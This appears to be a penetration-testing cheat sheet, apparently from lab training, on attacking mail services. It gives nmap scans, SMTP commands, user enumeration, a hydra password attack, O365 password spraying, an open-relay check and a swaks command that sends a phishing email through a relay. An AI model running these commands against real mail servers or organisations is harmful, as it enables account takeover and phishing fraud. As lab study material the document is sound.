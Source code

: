 1. Nmap
    1. `sudo nmap 10.129.14.128 -sC -sV -p25`
    2. `sudo nmap 10.129.14.128 -p25 --script smtp-open-relay -v`
2. Commands
```bash
AUTH PLAIN AUTH #is a service extension used to authenticate the client.                                  
HELO #The client logs in with its computer name and thus starts the session.                        
MAIL FROM #The client names the email sender.                                                            
RCPT TO #The client names the email recipient.                                                         
DATA #The client initiates the transmission of the email.                                           
RSET #The client aborts the initiated transmission but keeps the connection between client and server.|
VRFY #The client checks if a mailbox is available for message transfer.                             
EXPN #The client also checks if a mailbox is available for messaging with this command.             
NOOP #The client requests a response from the server to prevent disconnection due to time-out.      
USER # 
QUIT #The client terminates the session. 
```
## **All mail services**
1. Nmap scan: `sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.14.128`
2.  smtp-user-enum: `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7`
3. O365 Spray: 
    1. `python3 o365spray.py --validate --domain msplaintext.xyz`
    2. `python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz `
4. Hydra - Password Attack: `hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3`
5. O365 Spray - Password Spraying: `python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz`
6. Open Relay: `nmap -p25 -Pn --script smtp-open-relay 10.10.11.213`
7. use any mail client to connect to the mail server and send our email: `swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213`